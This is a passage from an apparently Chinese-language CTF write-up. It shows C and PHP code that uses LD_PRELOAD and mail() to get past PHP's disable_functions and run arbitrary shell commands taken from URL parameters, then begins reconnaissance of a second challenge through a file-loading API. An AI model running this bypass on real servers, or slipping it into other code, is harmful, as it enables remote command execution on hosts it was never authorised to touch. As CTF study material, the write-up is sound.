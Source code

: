 ```c
    // distribution (e.g., centos), I need crafty trick.
    int i;
    for (i = 0; environ[i]; ++i) {
            if (strstr(environ[i], "LD_PRELOAD")) {
                    environ[i][0] = '\0';
            }
    }

    // executive command
    system(cmdline);
}
```

编译：

```bash
gcc -shared -fPIC evil.c -o evil.so
```

用php改变环境变量

```php
<?php
    echo "<p> <b>example</b>: http://site.com/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";
    $cmd = $_GET["cmd"];
    $out_path = $_GET["outpath"];
		//2>&1:错误流也重定向到标准输出
    $evil_cmdline = $cmd . " > " . $out_path . " 2>&1";
    echo "<p> <b>cmdline</b>: " . $evil_cmdline . "</p>";
    putenv("EVIL_CMDLINE=" . $evil_cmdline);
    $so_path = $_GET["sopath"];
    putenv("LD_PRELOAD=" . $so_path);
    mail("", "", "","");
    echo "<p> <b>output</b>: <br />" . nl2br(file_get_contents($out_path)) . "</p>"; 
    unlink($out_path);
?>
```

但好像并没有跑出来。。

```
http://111.198.29.45:54398/pass.php?cmd= echo hello&outpath=/var/www/html/asd&sopath=/var/www/html/evil.so
```

## Zhuanxv[puzzled]

先用dirsearch跑一下，发现了/list，直接打开，是一个后台登录页面。

但是此时抓包发现，调用了一个api如下

```http
GET /loadimage?fileName=web_login_bg.jpg HTTP/1.1
Host: 111.198.29.45:47620
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: image/webp,*/*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://111.198.29.45:47620/zhuanxvlogin
Cookie: JSESSIONID=E1C890AE3EA936D0DAEA0C316E142F3F

```
